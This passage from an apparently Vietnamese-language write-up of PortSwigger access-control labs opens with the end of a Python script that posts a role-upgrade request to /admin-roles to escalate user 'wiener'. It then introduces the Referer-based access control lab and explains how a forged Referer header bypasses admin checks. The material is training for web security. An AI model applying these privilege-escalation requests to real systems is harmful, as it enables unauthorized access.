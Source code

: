 ```python=
    'action': 'upgrade',
    'confirmed': 'true',
    'username': 'wiener',
}

response = requests.post(
    url + '/admin-roles',
    cookies=cookies,
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/SkjbnA6Fa.png)

mục đích của chúng ta đã hoàn thành và mình cũng giải quyết được bài lab này

![image](https://hackmd.io/_uploads/BkpfnAatp.png)

## 13. Lab: Referer-based access control

link: https://portswigger.net/web-security/access-control/lab-referer-based-access-control

### Đề bài

![image](https://hackmd.io/_uploads/Byag6RaKp.png)

### Phân tích

<li>Miêu tả lab cho biết trang web kiểm tra thông tin tiêu đề Referer để xác thực người dùng. Chúng ta được cung cấp một tài khoản vai trò quản trị viên administrator:admin để thu thập các đường dẫn cũng như thông tin liên quan tới chức năng upgrade vai trò người dùng. Chúng ta còn được cung cấp một tài khoản hợp lệ thông thường wiener:peter, nhiệm vụ cần khai thác lỗ hổng trên thực hiện leo quyền tài khoản wiener lên quyền quản trị viên.</li>

<li>HTTP referer (từ chữ "referrer" vô tình bị viết sai chính tả) là một trường HTTP header xác định địa chỉ của trang web (tức là URI hoặc IRI) liên kết với tài nguyên được yêu cầu. Bằng cách kiểm lại trang giới thiệu, trang web mới có thể thấy yêu cầu bắt nguồn từ đâu. Ví dụ khi người dùng nhấn vào một liên kết trong một trình duyệt web, trình duyệt sẽ gửi một yêu cầu tới máy chủ lưu giữ trang web đích. Yêu cầu đó có bao gồm trường giới thiệu (referer), cho biết trang cuối cùng của người dùng sử dụng (trang mà họ đã nhấn vào liên kết). Ghi nhận trang chuyển tiếp được sử dụng để cho phép các trang web và máy chủ web xác định nơi mọi người đang truy cập chúng từ nơi nào, cho các mục đích quảng cáo hoặc thống kê.</li>

<li>Chúng ta sẽ cần truy cập vào đường dẫn tới /admin là trang quản trị, và sau đó sẽ tiếp tục truy cập tới đường dẫn có chức năng xóa tài khoản người dùng là /admin/delete và gửi tham số username yêu cầu xóa tài khoản. Lỗ hổng kiểm soát truy cập qua tiêu đề Referer có thể xảy ra khi người dùng truy cập tới /admin/delete, hệ thống kiểm tra giá trị tiêu đề Referer xem người dùng có phải tới từ đường dẫn nguồn là /admin hay không, nếu đúng sẽ xác thực tin tưởng và thông qua yêu cầu. Bởi kẻ tấn công có thể thay đổi giá trị tiêu đề Referer nên cơ chế hoạt động này thực sự nguy hiểm!</li>
